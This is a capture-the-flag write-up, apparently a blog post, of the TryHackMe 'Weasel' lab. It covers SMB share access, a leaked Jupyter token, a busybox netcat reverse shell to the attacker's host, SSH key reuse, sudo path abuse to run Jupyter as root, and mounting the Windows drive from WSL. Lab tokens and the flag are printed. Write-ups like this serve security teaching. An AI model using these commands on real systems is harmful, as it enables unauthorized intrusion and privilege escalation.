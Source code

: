 <h3> Weasel TryHackMe </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d75505c1-e2ce-4fb1-b86f-fe0818711009)

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8e462a6e-01d5-48fc-bc64-c5fe47d96a15)

From the scan we can tell that this is a windows box 

Let's enumerate smb first

Checking the shares available shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26c7facd-82f4-4d00-8311-461dfd8143db)

Now we can mount the *datasci-team* share
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/444afca1-a3cb-4896-a042-04ad8d917a25)

```
Command: sudo mount -t cifs -o username=guest,password= //10.10.195.131/datasci-team mount
```

After i looked through the smb folders in that share i didn't see anything interesting except this jupyter token
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5ba4420f-bd7d-455d-b7ee-95cb4e73fdc8)

We can now unmount it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5d1dd99e-5400-4c0c-82a5-a108061808f0)

```
Command: sudo umount mount
```

Back to the port 8888 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4664709-f541-4726-897e-fe03b3c6abcd)

This is an instance of jupyter and it's running on port 8888

It requies a token to get logged in

Remember we got a token from the smb so using it here works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/62df165e-d12d-4d19-9ede-7314f75b361a)

```
Token: 067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a
```

To get shell on jupyter is very easy since it usually have a python interactive instance and also a terminal 

But let's go with the terminal option

Click on the *new button* then click the *terminal button*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7fc0bd07-3196-4a6d-9bd6-6695bc41e21f)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4958278f-f2f6-458a-b39c-f48fed665167)

I just got a reverse shell using *busybox* binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43e343d2-1f66-49b3-9fb4-0199593dc0f8)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/64553ac3-75c2-4d97-8338-41d227cb7b19)

```
Command: busybox nc 10.2.42.156 1337 -e /bin/bash
```

From here we see that this is a linux host

But our nmap scan showed that this is a windows box 

So the only thing we can think of is that this is a host running [wsl](https://learn.microsoft.com/en-us/windows/wsl/install)

Looking at the current working directory we can see a ssh key for user *dev-datasci-lowpriv*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f8c7c1ed-34b8-4272-86bb-c2aa9a8d287b)

We can try login to ssh cause it works 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3eb644cd-c349-4dac-be61-9fe268d47bf5)

```
Command:-
chmod 600 id_rsa
ssh -i id_rsa dev-datasci-lowpriv@10.10.195.131
```

Let's see if we can root the wsl host because if that works we can just mount the windows host and access the administrator directory 

Also i'm taking this path cause i suck at privesc in windows 😄

Checking *sudo* permission on the wsl shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/843301ef-3f6b-44ac-afb8-2dbe2cb16308)

Interesting we can run */home/dev-datasci/.local/bin/jupyter* as root that looks to easy already 🙂

But trying it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e06c24fe-f20f-4532-99bf-4c1f25d3d0c8)

We get *command not found* and that is because the binary isn't in that specific path smh

I used *find* command then got the binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0f7909af-3e5e-4cac-b62f-5b56d05be07b)

```
Command: find / -type f -name jupyter 2>/dev/null
```

Now we can just copy the binary to that path since we have write access *cause /home/dev-datasci/.local* is owned by us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/761d9d35-f591-4dac-8aed-f3cca7cfc6db)

```
Command: cp /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter
```

Running sudo on it now works cool
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5dd59267-e719-4140-b8f2-aa27e5ea2d23)

```
Command: sudo /home/dev-datasci/.local/bin/jupyter --help
```

From here we can start a new lab jupyter instance and access it to get a new terminal running as root

Here's the [docs](https://jupyterlab.readthedocs.io/en/latest/) that helped me out 

But i got this error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/64fcd6c3-a3d2-4a29-be1e-34c49f88d511)

We can add the *--allow-root* to bypass that message 

Doing that now works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/47e0d398-5eb8-4f0e-afb7-8159b7f400ad)

```
Command:sudo /home/dev-datasci/.local/bin/jupyter notebook --ip 10.10.195.131 --port 8089 --allow-root
```

It created this new link with the token as it's GET parameter *http://10.10.195.131:8089/?token=20c98ba247520987b457638652bc252a9f55c74fe42375ba*

I logged out of that jupyter instance and logged in with the new token
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/691750ea-4141-4958-b24e-cd90724ebd3a)

Following the previous way we used to get shell works also
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/25230ead-be03-46df-9929-fe880a5dbfb9)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cc39d06f-4885-481f-9fa2-e77b396426e2)

But remember we are just root on this wsl but this gives us the permission to access the *C:\* drive on the windows thos

We can now just mount it

Here's the [resource](https://www.public-health.uiowa.edu/it/support/kb48568/) that helped me out

Mounting it works and we can grab the root flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe087f4c-d35c-4f51-8482-1d2146ffd037)

```
Command:-
mkdir /mnt/windows
mount -t drvfs C: /mnt/windows
```

The flag is saying something about elevated privesc *THM{evelated_w3as3l_l0ngest_boi}* maybe intended was by getting root from the main host via elevated privilege escalation idk 🤔

And we're done 👻
